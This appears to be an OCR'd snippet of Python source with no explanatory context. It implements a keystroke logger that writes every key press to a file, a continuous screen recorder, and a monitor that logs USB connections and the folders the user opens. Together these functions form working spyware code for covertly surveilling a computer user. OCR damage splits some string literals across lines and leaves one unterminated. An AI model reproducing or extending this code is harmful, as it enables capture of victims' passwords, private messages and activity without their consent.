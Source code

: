 ```python

def log_keys():
    with open(KEY_LOG_FILE, "a", encoding="utf-8") as f:
        def on_press(key):
            try:
                f.write(f"[{time.strftime('%Y-%m-%d %H:%M:%S')}] {key.char}
")
            except AttributeError:
                f.write(f"[{time.strftime('%Y-%m-%d %H:%M:%S')}] {key}
")
        with keyboard.Listener(on_press=on_press) as listener:
            listener.join()

def record_screen():
    with mss.mss() as sct:
        monitor = sct.monitors[1]
        width = monitor["width"]
        height = monitor["height"]
        fourcc = cv2.VideoWriter_fourcc(*"XVID")
        out = cv2.VideoWriter(VIDEO_FILENAME, fourcc, VIDEO_FPS, (width, height))
        while True:
            if not is_screen_locked():
                img = sct.grab(monitor)
                frame = cv2.cvtColor(cv2.UMat(img.rgb), cv2.COLOR_RGB2BGR)
                out.write(frame)
            time.sleep(SCREEN_INTERVAL)

def log_usb_events_and_folders():
    prev_devices = set()
    prev_folders = set()
    while True:
        current_devices = set(d.device for d in psutil.disk_partitions(all=True))
        added = current_devices - prev_devices
        removed = prev_devices - current_devices

        open_folders = set()
        try:
            import win32com.client
            shell = win32com.client.Dispatch("Shell.Application")
            for window in shell.Windows():
                if window and hasattr(window, 'LocationURL'):
                    path = window.LocationURL.replace("file://", "").replace("%20", " ")
                    if path and ":\" in path:
                        open_folders.add(path)
        except:
            pass

        new_folders = open_folders - prev_folders

        with open(USB_LOG_FILE, "a", encoding="utf-8") as f:
            for dev in added:
                f.write(f"[{time.strftime('%Y-%m-%d %H:%M:%S')}] USB Connected: {dev}
")
            for dev in removed:
                f.write(f"[{time.strftime('%Y-%m-%d %H:%M:%S')}] USB Disconnected: {dev}
")
            for folder in new_folders:
                f.write(f"[{time.strftime('%Y-%m-%d %H:%M:%S')}] Folder Opened: {folder}
")

        prev_devices = current_devices
        prev_folders = open_folders
        time.sleep(USB_POLL_RATE)
```